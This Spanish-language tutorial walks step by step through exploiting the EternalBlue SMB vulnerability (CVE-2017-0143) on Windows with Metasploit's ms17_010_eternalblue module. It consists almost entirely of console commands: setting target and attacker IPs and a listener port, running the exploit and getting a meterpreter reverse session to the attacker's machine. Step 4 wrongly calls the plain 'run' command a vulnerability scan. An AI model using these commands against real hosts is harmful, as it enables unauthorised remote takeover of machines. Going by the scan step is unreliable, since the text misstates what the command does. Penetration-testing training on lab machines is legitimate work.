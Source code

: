 # Explotación de EternalBlue en Windows con Metasploit

En este tutorial, veremos cómo aprovechar la vulnerabilidad **EternalBlue** (CVE-2017-0143) para comprometer una máquina Windows usando `Metasploit`.

### 1. Iniciar Metasploit

El primer paso es iniciar la base de datos de Metasploit y abrir la consola:

```bash
$ sudo msfdb init && msfconsole
```

### 2. Buscar y seleccionar el exploit para EternalBlue

Para encontrar el exploit específico de EternalBlue en la base de datos de `Metasploit`, buscamos el ID de vulnerabilidad CVE-2017-0143:

```bash
msf6 > search CVE:CVE-2017-0143
```

Seleccionamos el exploit correspondiente a **EternalBlue**.

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

### 3. Configurar los parámetros del exploit

Una vez seleccionado el exploit, debemos configurar los parámetros necesarios, como la dirección IP de nuestra máquina (LHOST) y la dirección IP del objetivo (RHOST).

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.25  # IP de la máquina objetivo
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.18    # IP de nuestra máquina atacante
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444            # Puerto a utilizar
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options  # Verificar configuración.
```

### 4. Ejecutar el escaneo de vulnerabilidad

Antes de ejecutar el exploit, realizamos un escaneo para confirmar si la máquina objetivo es vulnerable.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

Si el sistema objetivo es vulnerable, deberías ver un mensaje indicando que está listo para ser explotado:

```bash
[*] 192.168.1.25:445 - The target is vulnerable.
```

### 5. Ejecutar el exploit y obtener una sesión

Finalmente, ejecutamos el exploit para abrir una sesión `meterpreter` en la máquina comprometida:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

Si todo sale bien, recibirás una sesión de `meterpreter`:

```bash
[*] Meterpreter session 1 opened (192.168.1.18:4444 -> 192.168.1.25:49159)
```

***
